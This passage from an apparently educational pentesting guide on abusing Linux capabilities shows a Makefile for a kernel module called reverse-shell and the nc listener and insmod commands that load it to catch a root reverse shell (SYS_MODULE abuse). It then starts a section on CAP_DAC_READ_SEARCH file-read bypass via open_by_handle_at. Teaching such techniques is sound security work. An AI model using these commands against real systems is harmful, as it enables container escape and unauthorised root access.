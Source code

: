 {% code title="Makefile" %}
```bash
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
{% endcode %}


The blank char before each make word in the Makefile **must be a tab, not spaces**!


Execute `make` to compile it.

```
ake[1]: *** /lib/modules/5.10.0-kali7-amd64/build: No such file or directory.  Stop.

sudo apt update
sudo apt full-upgrade
```

Finally, start `nc` inside a shell and **load the module** from another one and you will capture the shell in the nc process:

```bash
#Shell 1
nc -lvnp 4444

#Shell 2
insmod reverse-shell.ko #Launch the reverse shell
```

**The code of this technique was copied from the laboratory of "Abusing SYS\_MODULE Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

Another example of this technique can be found in [https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)

## CAP\_DAC\_READ\_SEARCH

[**CAP\_DAC\_READ\_SEARCH**](https://man7.org/linux/man-pages/man7/capabilities.7.html) allows a process to **bypass file read, and directory read and execute permissions**. While this was designed to be used for searching or reading files, it also grants the process permission to invoke `open_by_handle_at(2)`. Any process with the capability `CAP_DAC_READ_SEARCH` can use `open_by_handle_at(2)` to gain access to any file, even files outside their mount namespace. The handle passed into `open_by_handle_at(2)` is intended to be an opaque identifier retrieved using `name_to_handle_at(2)`. However, this handle contains sensitive and tamperable information, such as inode numbers. This was first shown to be an issue in Docker containers by Sebastian Krahmer with [shocker](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) exploit.\
**This means that you can** **bypass can bypass file read permission checks and directory read/execute permission checks.**
